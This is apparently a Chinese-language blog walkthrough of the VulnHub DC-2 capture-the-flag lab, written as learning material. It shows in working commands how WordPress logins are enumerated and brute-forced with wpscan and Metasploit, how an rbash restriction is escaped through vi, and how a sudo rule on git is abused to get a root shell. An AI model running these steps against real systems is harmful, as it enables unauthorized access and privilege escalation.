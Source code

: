 ```yaml
---
title: VulnHub-DC-2
author: AmtuOrRF
date: 2022-03-12
categories: [vulnhub]
tags: [vulnhub]
---
```


### Description
> 与 DC-1 非常相似，DC-2 是另一个专门构建的易受攻击的实验室，目的是获得渗透测试领域的经验。

> 与最初的 DC-1 一样，它的设计考虑到了初学者。

> 必须具备 Linux 技能和熟悉 Linux 命令行，以及一些基本渗透测试工具的经验。

> 就像 DC-1 一样，有五个标志，包括最终标志。

> 再说一次，就像 DC-1 一样，标志对初学者很重要，但对有经验的人来说并不那么重要。

> 简而言之，唯一真正重要的标志是最终标志。

> 对于初学者来说，谷歌是你的朋友。好吧，除了所有的隐私问题等等等等。

> 我还没有探索实现 root 的所有方法，因为我放弃了我一直在研究的以前的版本，并从基本操作系统安装之外完全重新开始。


### Table of Content
- nmap
- 使用cewl生成密码字典
- 使用wpscan枚举wordpress用户
- 使用wpscan枚举wordpress用户的密码
- 使用msf模块暴力破解wordpress后台登录密码
- ssh登录系统,绕过rbash的限制
- sudo git 提权


### nmap
```bash
root@kali:~/vulnhub/DC-2# nmap -sV -p- 172.16.1.93 -sC -oN nmap
Nmap scan report for 172.16.1.93
Host is up (0.0016s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E8:B3:60 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds
```

```bash
修改渗透的/etc/hosts文件
添加

# 靶机IP  DC-2
172.16.1.93 DC-2
```

### Web
FLAG 1
`http://dc-2/index.php/flag/`

```flag

Flag

Flag 1:

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.

```

### 使用cewl生成密码字典
```bash
cewl http://dc-2/ > dic.txt
```

### 使用wpscan枚举wordpress用户
从安装wpscan开始
```bash
wpscan --url http://dc-2/ -e u

#最终枚举出3位
admin
jerry
tomz
```
### 使用wpscan枚举wordpress用户的密码
```bash
wpscan --url http://dc-2 -U tom,jerry -P dic.txt

# 最终得到
'jerry' : 'adipiscing'
'tom' : 'parturient'
```

### 使用msf模块暴力破解wordpress后台登录密码
```bash
$ cat /root/user.txt
admin
tom
jerry


$ msfconsole
msf6> use scanner/http/wordpress_xmlrpc_login
msf6> set user_file /root/user.txt
msf6> set pass_file /root/dic.txt
msf6> run

# 最终得到
'jerry' : 'adipiscing'
'tom' : 'parturient'

```

`jerry`:`adipiscing`
登录后台 发现flag2
url:`http://dc-2/wp-admin/post.php?post=21&action=edit`
FLAG 2
```flag
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```

### ssh登录系统,绕过rbash的限制
用户和密码
`tom`:`parturient`
尝试通过ssh登录系统
```bash
$ ssh tom@dc-2 -p 7744

#  登录成功
```
无法使用 `/`
```bash
tom@DC-2:~$ /bin/su
-rbash: /bin/su: restricted: cannot specify `/' in command names

tom@DC-2:~$ echo $SHELL
/bin/rbash
```
 rbash 是什么？
 > 如今网络安全行业越来越规范，我们还想直接获取到未限制的shell是件很困难的事情，系统运维人员一般都会给Linux shell加上一些限制来防止入侵，通常会阻止运行某些特定的命令。
 > 常见的受限shell环境类型包括rbash、rksh和rsh

接下来进行绕过

```bash
# 通过vi 绕过rbash
vi 1

: set shell=/bin/sh

:shell
```
继续
```bash
$ /bin/su
# 可以使用
```

tom 登录环境是 `/bin/rbash`，而 jerry 登录环境是`/bin/bash`
 *注 ： jerry 用户不能直接通过 ssh 登录
 需要我们先使用 tom 登录系统然后su jerry
 *
```bash
tom@DC-2:/home/tom$ /bin/cat /etc/passwd |grep bash
root:x:0:0:root:/root:/bin/bash
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
```

jerry 的密码上面已经得到了尝试su切换用户
`jerry`:`adipiscing`
```bash
tom@DC-2:/home/tom$ /bin/su jerry

jerry@DC-2:/home/tom$ whoami
jerry
```

### sudo git 提权
```bash
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git



jerry@DC-2:/home/tom$ sudo /usr/bin/git -p help config
!/bin/bash
# 直接输入 !/bin/bash
!/bin/bash
root@DC-2:/home/tom# 
```

END
```shell
root@DC-2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
root@DC-2:/home/tom# cd ~
root@DC-2:~# ls
final-flag.txt
root@DC-2:~# cat final-flag.txt 
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

root@DC-2:~#
```

*补充:
jerry 不能直接通过ssh连接
尝试`scp`
*